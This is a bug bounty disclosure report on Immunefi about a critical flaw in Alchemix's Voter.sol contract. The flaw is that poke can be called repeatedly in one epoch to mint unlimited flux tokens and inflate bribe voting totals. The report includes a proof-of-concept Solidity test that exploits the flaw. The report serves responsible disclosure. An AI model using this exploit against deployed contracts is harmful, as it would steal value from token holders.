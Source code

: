 # 31483 - \[SC - Critical] Users can vote multiple times in one epoch

Submitted on May 20th 2024 at 05:58:18 UTC by @MahdiKarimi for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31483

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:

* Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
* Theft of unclaimed yield

## Description

## Brief/Intro

Users can mint unlimited flux by calling `poke` multiple times

## Vulnerability Details

The vote function at voter uses onlyNewEpoch modifier so users can vote only once per epoch and receive flux tokens, however, the `poke` function that applies voting in the last epoch to the current epoch doesn't use this modifier and user can call it multiple times in one epoch and receive unlimited flux also, every time `_vote` function is called in `poke`, it resets the last voting and calls deposit at the bribe which inflates total voting at bribe so distributed rewards to bribe would be lost ( total voting used to calculate amount of rewards has been distributed per token )

## Impact Details

Minting unlimited flux tokens leads flux price to 0 ( Direct theft of any user funds, whether at rest or in motion, other than unclaimed yield ) , the flux token is used as a reward for users but it's an ERC20 and can be traded in markets ( has some utilities ) so minting unlimited flux affects all flux holders ( not just rewarded users ) and leads to the loss of their assets that's why I believe it's considered direct theft of user funds.

Loss of distributed rewards at underlying bribes

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212

## Proof of Concept

```
function testVoteWithoutLimit() external {

        // create lock token for user 
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);

        // calculate the amount flux tokens that user should be able to claim in this epoch 
        uint256 token1Flux = veALCX.claimableFlux(tokenId1);

        // assert user has no unclaimed flux 
        uint256 unclaimedFlux1Start = flux.getUnclaimedFlux(tokenId1);
        assertEq(unclaimedFlux1Start, 0, "should start with no unclaimed flux");


        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        // vote and calling poke multiple times 
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);

        // as we see user has received 6 times more rewards as we called poke multiple times
        uint256 actualFluxClaimed = 6 * token1Flux;
        uint256 unclaimedFlux1End = flux.getUnclaimedFlux(tokenId1);
        assertEq(actualFluxClaimed, unclaimedFlux1End);

    }
```
